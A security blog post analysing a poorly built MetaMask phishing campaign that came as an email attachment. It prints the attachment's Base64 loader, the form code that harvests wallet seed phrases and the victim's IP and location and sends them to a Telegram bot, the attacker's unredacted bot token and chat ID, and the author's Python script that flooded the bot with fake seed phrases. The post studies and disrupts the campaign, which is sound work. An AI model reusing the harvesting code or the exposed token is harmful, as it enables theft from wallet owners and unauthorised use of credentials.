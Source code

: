 +++
title = 'Exploring a (poorly made) Telegram-based MetaMask phishing campaign'
date = 2024-10-27T21:04:50+02:00
author = ''
draft = false
tags = ['phishing']
categories = ['random']
+++

A few days ago, I received a pretty credible-looking MetaMask phishing email stating that my account had been locked due to an attempt to connect a new device to it. I don't use such wallet, but this sparked my interest and I decided to spend a bit of time and look into how the phishing campaign was structured.

## Email attachment

The attached HTML file `RemovedDevice.html` contained a barebones HTML structure with a bit of JS and a long Base64 encoded string which the attached script would decode and use jQuery to attach it back to the website body.

```javascript
$(document).ready(function () {
  saveFile();
});

function saveFile(name, type, data) {
  if (data != null && navigator.msSaveBlob)
    return navigator.msSaveBlob(new Blob([data], { type: type }), name);
  var a = $("<a style='display: none;'/>");

  var encodedStringAtoB = "<base64-encoded-string>";
  var decodedStringAtoB = atob(encodedStringAtoB);
  const myBlob = new Blob([decodedStringAtoB], { type: "text/html" });
  const url = window.URL.createObjectURL(myBlob);

  a.attr("href", url);
  $("body").append(a);
  a[0].click();
  window.URL.revokeObjectURL(url);
  a.remove();
}
```

The resulting webpage would display 12/15/18/21/24 input fields for a crypto wallet seed phrases of various lengths.

The backend of this campaign relied on Telegram, and to my surprise the utilized API token and chat ID weren't obfuscated in any way. Also the fact that the comments were still present in the source code indicate that the campaign was just pasted from a public template. The visible chat ID tells us that the data was being exfiltrated into a private chat as Telegram's supergroup and channel IDs would have a `-100` prefix.

```javascript
// Add your telegram token,chatid
const token = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0";
const chatId = "7839331161";
```

Before sending the collected information to the Telegram chat, the JavaScript code would also make a quick GET request to get the victim's public IP and related location data. I couldn't really figure out the point of this as MetaMask is a self-custodial wallet and doesn't utilize any kind of fraud prevention system that could stop the attacker from draining the targeted account if their geolocation didn't match with the wallet's owner.

```javascript
wordForm1.addEventListener("submit", (e) => {
  e.preventDefault();
  errbox.classList.add("hide");
  let regex = /[!`@#$~%^&*()\-+={}[\]:;"'<>,.?\/|\\]/;
  let regex2 = /\d/;
  let pass = false;

  for (let i = 0; i < word12Input.length; i++) {
    if (regex.test(word12Input[i].value) || regex2.test(word12Input[i].value)) {
      pass = true;
    }
  }
  if (pass) {
    errbox.classList.remove("hide");
  } else {
    if (
      word12_1.value === "" ||
      word12_2.value === "" ||
      word12_3.value === "" ||
      word12_4.value === "" ||
      word12_5.value === "" ||
      word12_6.value === "" ||
      word12_7.value === "" ||
      word12_8.value === "" ||
      word12_9.value === "" ||
      word12_10.value === "" ||
      word12_11.value === "" ||
      word12_12.value === ""
    ) {
      btncofirm1.disabled = true;
    } else {
      preloader.classList.remove("hide");

      let data = `IP: ${ip.ip}\nRegion: ${ip.region}\nTime Zone: ${ip.timezone}\nWord 1: ${word12_1.value} \nWord 2: ${word12_2.value} \nWord 3: ${word12_3.value} \nWord 4: ${word12_4.value} \nWord 5: ${word12_5.value} \nWord 6: ${word12_6.value} \nWord 7: ${word12_7.value} \nWord 8: ${word12_8.value} \nWord 9: ${word12_9.value} \nWord 10: ${word12_10.value} \nWord 11: ${word12_11.value} \nWord 12: ${word12_12.value}`;
      postData(data);
      setTimeout(() => {
        preloader.classList.add("hide");
        noDone.classList.add("hide");
        done.classList.remove("hide");
        timer2(10);
      }, 4000);
    }
  }
});
```

## Greetings

Using the visible API token and chat ID I was able to find out a bit more about the bot itself via a `getMe` request and even send out randomly generated data to make it more difficult to detect any working seed phrases from large amount of responses:

```json
{
  "ok": true,
  "result": {
    "id": 7686154983,
    "is_bot": true,
    "first_name": "wegomakeit",
    "username": "wegomakeit_bot",
    "can_join_groups": true,
    "can_read_all_group_messages": false,
    "supports_inline_queries": false,
    "can_connect_to_business": false,
    "has_main_web_app": false
  }
}
```

```python
import random
import requests
from time import sleep
from address import generate_residential_ip
from phrase import generate_seed_phrase, bip39_words

TOKEN = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0"
CHAT_ID = "7839331161"
API_BASE_URL = f"https://api.telegram.org/bot{TOKEN}"


def construct_msg(words):
    ip, region, timezone = generate_residential_ip()
    phrase = generate_seed_phrase(words, random.choice([12, 15, 18, 21, 24]))

    ip_str = f"IP: {ip}\nRegion: {region}\nTime Zone: {timezone}\n"
    phrase_str = ""

    for i, w in enumerate(phrase):
        w_str = f"Word {i + 1}: {w} \n"
        phrase_str += w_str

    return ip_str + phrase_str


def send_msg(words, chat_id):
    payload = {"chat_id": chat_id, "text": construct_msg(words)}
    res = requests.post(f"{API_BASE_URL}/sendMessage", data=payload)
    print(res.text)


words = bip39_words()

while True:
    send_msg(words, CHAT_ID)
    sleep(random.randint(1, 10))
```

I left the bot running in a Docker container for some time, and in the end I was able to send roughly 10k messages before the campaign operator revoked the API token.

Next time I get a cryptocurrency related phishing email like this, I'd like to try tracking the stolen funds by giving out the seed phrase of a fresh wallet with e.g. $5-10 USD worth of funds inside and see what kind of anti-forensic methods would the attacker utilize (although given the quality of this campaign, they'd probably just deposit immediately into a full-KYC CEX).
